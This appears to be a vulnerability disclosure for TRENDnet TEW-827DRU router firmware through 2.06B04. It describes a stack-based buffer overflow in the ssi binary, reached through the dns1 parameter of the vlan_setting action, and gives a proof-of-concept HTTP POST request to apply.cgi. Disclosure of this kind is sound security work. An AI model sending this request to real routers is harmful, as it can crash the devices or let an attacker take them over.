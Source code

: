 # TEW-827DRU
## Firmware version
TEW-827DRU devices through 2.06B04
## description
TRENDnet TEW-827DRU devices through 2.06B04 contain a stack-based buffer overflow in the ssi binary. The overflow allows an authenticated user to execute arbitrary code by POSTing to apply.cgi via the action vlan_setting with a sufficiently long dns1 or dns 2 key.
## detail
The bug in function 0x4434B0, binary www/cgi/ssi
The parameter 'dns1' pass to sprintf
![vlan_setting](image.png)

## Send package
```txt
POST /apply.cgi HTTP/1.1
Host: 192.168.1.1
Accept: */*
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 146

action=vlan_setting&method=static&dns1='a'*0x100&dns2=a
```
